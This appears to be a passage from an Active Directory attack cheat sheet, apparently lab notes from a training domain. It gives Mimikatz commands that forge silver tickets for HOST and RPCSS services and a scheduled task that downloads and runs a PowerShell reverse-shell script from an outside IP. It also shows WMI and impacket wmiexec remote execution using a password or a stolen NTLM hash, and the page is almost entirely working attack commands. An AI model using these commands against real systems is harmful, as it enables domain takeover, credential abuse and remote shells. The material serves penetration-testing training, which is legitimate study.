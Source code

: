 Silver ticket for a specific SPN with a compromised service/machine account:
```
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.domain.local /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

HOST:
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:[ntlm hash dcorp-dc] /user:Administrator /ptt"'`

RPCSS:
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:[ntlm hash dcorp-dc] /user:Administrator /ptt"'
```

List of available SPNs for silver tickets: https://adsecurity.org/?page_id=183


## Command execution with schtask
(requires 'Host' SPN)

To create a task:
Mind the quotes. Use encoded commands if quoting becomes a pain.
```
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dcorp-dc.dollarcorp.moneycorp.local /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'"
```

To trigger it:
```
schtasks /RUN /TN "shell" /s dcorp-dc.dollarcorp.moneycorp.local
```


## Command execution with WMI
(requires 'Host' and 'RPCSS')

From Windows:
```
Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

From Linux:
```
With password
impacket-wmiexec dcorp/student355:password@172.16.4.101

With hash
impacket-wmiexec dcorp/student355@172.16.4.101 -hashes :92F4AE6DCDAC7CF870B79F1758503D54
```
